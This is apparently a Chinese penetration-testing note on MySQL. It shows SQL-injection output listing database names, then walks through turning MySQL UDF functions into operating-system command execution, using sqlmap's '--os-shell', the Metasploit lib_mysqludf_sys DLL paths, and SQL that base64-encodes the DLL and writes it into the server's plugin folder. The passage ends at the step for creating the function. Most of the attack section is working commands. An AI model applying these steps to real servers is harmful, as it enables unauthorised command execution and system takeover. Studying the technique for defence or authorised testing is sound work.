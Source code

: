 ```
<td>qbqjqmysqlqbvjq</td>
<td>qbqjqperformance_schemaqbvjq</td>

# 格式为 [前缀][数据][后缀]
# [前缀]和[后缀]的作用是方便匹配到获取到的[数据]
# 这里前缀和后缀都是qbqjq  [数据]即
information_schema
mysql
performance_schema
```

### 利用MySQL数据库的UDF函数执行系统命令


* 前提条件
  * MySQL具备文件读取、写入权限
  * 知道MySQL的plugin文件夹的具体位置
* 原理是？
  * MySQL的UDF函数 - 上传1个二进制文件:共享库(shared library)到对应文件夹，该二进制文件之内包含2个用户自定义函数(user-defined functions,UDF)用户自定义函数,作用都是执行系统命令. 然后在数据库使用SQL语句 创建该函数, 并使用select调用该函数 即可执行系统命令!


自动过程:
```
--os-shell
```


手工过程:


🌹第1步 - 准备UDF文件
```
metasploit中有windows下MySQL的UDF二进制文件:
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
```

🌹第2步 - 传输 UDF二进制文件 的 数据 到 目标主机 的 目标文件夹 /plugin/

可以考虑用hex编码、base64编码.

```
MySQL实现base64编码解码 MySQL版本要求:（主要是看目标机器的mysql能否 "解码" 编码了的数据.）
MySQL >= 5.6.1
MariaDB >= 10.0.5 

// mysql sql在自己pc实现编码
select to_base64(load_file('D:\\lib_mysqludf_sys_64.dll')) into outfile "D:\\udf64.txt" 
```

```sql
// mysql sql在对方server上的mysql实现 解码!!!
select from_base64("base64的内容") into dumpfile "D:\mysql-5.6.41-winx64\lib\plugin\udf64.dll";
```



🌹第3步 - 创建udf函数
